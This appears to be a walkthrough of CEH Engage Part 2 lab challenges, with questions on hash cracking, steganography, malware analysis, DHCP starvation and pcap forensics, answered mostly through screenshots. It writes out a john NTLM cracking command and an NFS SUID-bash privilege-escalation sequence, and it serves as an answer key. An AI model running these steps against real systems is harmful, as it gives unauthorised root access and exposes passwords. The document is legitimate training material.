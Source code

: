 # 2️⃣ CEH Engage Part 2



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user James?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



You are assigned a task to crack the NTLM password hashes captured by the internal security team. The password hash has been stored in the Documents folder of the Parrot Security console machine. What is the password of user Jones?

```
john --format=NT hashes.txt
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



You have got user-level access to the machine with IP 172.16.0.11. Your task is to escalate the privileges to that of the root user on the machine and read the content in the rootflag.txt file. (Note: all the flag files are located at the root, Desktop, Documents, or Downloads folder for the respective users/machines). Note: use LinuxPass when asked for machine password.

```
nmap -sV <IP addr>
```

```
sudo apt-get install nfs-common
```

```
showmount -e <IP addr>

mkdir /tmp/nfs

sudo mount -t nfs <IP addr>:/home /tmp/nfs

cd /tmp/nfs

sudo cp /bin/bash

sudo chmod +s bash

ls -la bash

ssh -l ubuntu <IP addr>

cd /home

./bash -p

id
```



<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



An employee in your organization is suspected of sending important information to an accomplice outside the organization. The incident response team has intercepted some files from the employee's system that they believe have hidden information. You are asked to investigate a file named Confidential.txt and extract hidden information. Find out the information hidden in the file. Note: The Confidential.txt file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

```
SNOW.EXE -C Confidential.txt
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



The incident response team has intercepted an image file from a communication that is supposed to have just text. You are asked to investigate the file and check if it contains any hidden information. Find out the information hidden in the file. Note: The vacation.bmp file is located at C:\Users\Admin\Documents in EH Workstation – 2 machine.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



You are a malware analyst working for CEHORG. During your assessment within your organisation's network, you found a malware face.exe. The malware is extracted and placed at C:\Users\Admin\Documents in the EH Workstation – 2 machine. Analyze the malware and find out the File pos for KERNEL32.dll text. (Hint: exclude zeros.)



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>











Analyze an ELF executable (Sample-ELF) file placed at C:\Users\Admin\Documents in the EH Workstation – 2 machines to determine the CPU Architecture it was built for.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>





You have been given a task to audit the passwords of a server present in CEHORG network. Find out the password of the user Adam and submit it. (Note: Use Administrator/ CSCPa\$$ when asked for credentials).

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>









Use Yersinia on the “EH Workstation – 1” (Parrot Security) machine to perform the DHCP starvation attack. Analyze the network traffic generated during the attack and find the Transaction ID of the DHCP Discover packets.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



CEHORG suspects a possible sniffing attack on a machine in its network. The organization has retained the network traffic data for the session and stored it in the Documents folder in EH Workstation – 2 (Windows 11) machine as sniffsession.pcap. You have been assigned a task to analyze and find out the protocol used for sniffing on its network.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



As an ethical hacker, you are tasked to analyze the traffic capture file webtraffic.pcapng. Find out the packet's id that uses ICMP protocol to communicate. Note: The webtraffic.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



An attacker has created a custom UDP packet and sent it to one of the machines in the CEHORG. You have been given a task to study the ""CustomUDP.pcapng"" file and find the data size of the UDP packet (in bytes). Note: The CustomUDP.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



A denial-of-service attack has been launched on a target machine in the CEHORG network. A network session file "DoS.pcapng" has been captured and stored in the Documents folder of the EH Workstation - 2 machine. Find the IP address of the attacker's machine.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



A machine in CEHORG network has been installed with a spyware by an Ex-employee. You are given a task to connect to the attacked machine to find out the hidden flag in the documents folder.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>









A disgruntled employee in CEHORG has used the Covert\_TCP utility to share a secret message with another user in the CEHORG network. Covert\_TCP manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can be used to hide the data inside IP header fields. The employee used the IP ID field to hide the message. The network capture file “Capture.pcapng” has been retained in the “C:\Users\Administrator\Documents” directory of the “EH Workstation – 2” machine. Analyze the session to get the message that was transmitted.



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>





CEHORG has assigned you with analysing the snapshot of the operating system registry and perform the further steps as part of dynamic analysis and find out the whether the driver packages registry is changed. Give your response as Yes/No.

\-> Yes





Perform windows service monitoring and find out the service type associated with display name "afunix".



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





CEHORG has found that one of its web application movies.cehorg.com running on its network is leaking credentials in plain text. You have been assigned a task of analysing the movies.pcap file and find out the leaked credentials. Note: The movies.pcapng file is located at C:\Users\Administrator\Documents\ in the Documents folder on EH Workstation – 2 (Windows 11) machine. Make a note of the credentials obtained in this flag, it will be used in the Part 4 of CEH Skill Check.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>



CEHORG hosts a datacenter for its bussiness clients. While analyzing the network traffic it was observed that there was a huge surge of incoming traffic from multiple sources. You are given a task to analyze and study the DDoS.pcap file. The captured network session (DDoS.pcapng) is stored in the Documents folder of the EH Workstation -2 machine. Determine the number of machines that were used to initiate the attack.

\-> 3

